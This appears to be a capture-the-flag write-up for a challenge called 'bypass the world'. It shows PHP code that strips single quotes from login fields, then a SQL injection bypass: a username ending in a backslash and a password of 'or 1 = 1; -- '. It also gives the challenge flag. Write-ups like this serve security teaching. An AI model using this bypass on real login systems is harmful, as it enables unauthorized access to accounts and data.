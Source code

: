 ## bypass the world  

### The Problem:

> I Don't Care if the world is against you, but i believe that you can bypass the world  (http://35.197.254.240/bypassworld/)

### The Solution:

- Using the hint, it seems some lousy filter is replacing/deleting the single quote char `\`` inserted by user. The Challenge would be escaping the single quotes written in the original code.  
```
$name = preg_replace('/\'/', '', $name);
$pass = preg_replace('/\'/', '', $pass);

$query = "SELECT * FROM users where name = '$name' and password = '$pass'"
```
- Username field `blabla\`, password field `or 1 = 1; -- `

`$query = "SELECT * FROM users where name = 'blabla\' and password = 'or 1 = 1; -- $pass'"`

- Note: the space after the double dash is essential for MySQL!
  
  > The double dash-comment style requires at least whitespace or control character (space, tab, newline, etc) after the second dash. Note that standard SQL does not require a whitespace after the second dash. MySQL uses a whitespace to avoid the problems with some SQL construct... etc.


### The flag: 
`FLAG{Y0u_Ar3_S0_C00L_T0d4y}`

### Notes:
- **CWE-89**
- OWASP top 10 `A1-Injection`.



